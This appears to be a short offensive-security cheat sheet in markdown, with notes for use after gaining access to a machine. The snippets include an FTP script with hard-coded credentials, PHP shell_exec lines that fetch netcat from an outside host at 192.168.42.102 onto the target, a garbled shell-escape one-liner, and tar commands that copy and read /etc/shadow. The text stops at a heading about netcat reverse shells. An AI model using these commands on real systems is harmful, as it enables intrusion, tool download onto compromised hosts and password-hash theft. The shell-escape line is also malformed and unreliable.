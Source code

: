 ### Create a txt files with 10000 rows
```sh
for FILE in *.full ; do 
	split -l 100000 $FILE; mv -f xaa `echo "$FILE" \
	| cut -d'.' -f1`.txt; rm -f x*; 
done
```
### File transfer as a PRO

```sh
#!/bin/sh

ftp -n IP <<END_SCRIPT
quote USER acknak
quote PASS jLQRZy4gyLhmMqz2whTw
binary
GET file.py
quit
END_SCRIPT
exit 0
```

### This can also be done over PHP

```php
<?php echo shell_exec("echo open 192.168.42.102 21>/usr/local/databases/ftp.txt");?>
<?php echo shell_exec("echo user acknak jLQRZy4gyLhmMqz2whTw>> /usr/local/databases/ftp.txt");?>
<?php echo shell_exec("echo binary>> /usr/local/databases/ftp.txt");?>
<?php echo shell_exec("echo get netcat /usr/local/databases/netcat>>/usr/local/databases/ftp.txt");?>
<?php echo shell_exec("echo bye>> /usr/local/databases/ftp.txt");?>

<?php echo shell_exec("ftp -n < /usr/local/databases/ftp.txt");?>
```

### Escaping Shells 

```sh
echo FREEDOM! && cd () bash && cd
```

### TAR can read all files, so you can create a tar with a wanted file and than extract it

```sh
tar -cvf shadow.tar "/etc/shadow"
tar -xvf shadow.tar
cat etc/shadow
```

### Netcat without `-e`

A lot of machines have netcat installed (example macosx) but it's not usable for reverse shells. However, with this it becomes useable.
